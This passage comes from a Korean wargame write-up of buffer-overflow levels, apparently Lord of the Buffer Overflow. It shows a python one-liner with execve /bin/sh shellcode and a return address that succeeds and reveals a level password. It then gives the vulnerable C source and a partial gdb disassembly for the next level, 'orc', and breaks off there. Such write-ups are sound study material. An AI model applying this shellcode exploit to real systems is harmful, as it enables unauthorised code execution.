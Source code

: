 위와 같이 exploit payload 를 짜보자!

```
`python -c "print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*19+"\x90\xfc\xff\xbf"`

bash$ my-pass
euid = 504
cantata
```

오오 됨!!
## orc

### 1. source code
```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}
	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
### 2. gdb

```asm
0x8048500 <main>:	push   %ebp
0x8048501 <main+1>:	mov    %ebp,%esp
0x8048503 <main+3>:	sub    %esp,44
0x8048506 <main+6>:	cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:	jg     0x8048523 <main+35>
0x804850c <main+12>:	push   0x8048640
0x8048511 <main+17>:	call   0x8048410 <printf>
0x8048516 <main+22>:	add    %esp,4
0x8048519 <main+25>:	push   0
0x804851b <main+27>:	call   0x8048420 <exit>
0x8048520 <main+32>:	add    %esp,4
0x8048523 <main+35>:	nop
0x8048524 <main+36>:	mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:	nop
```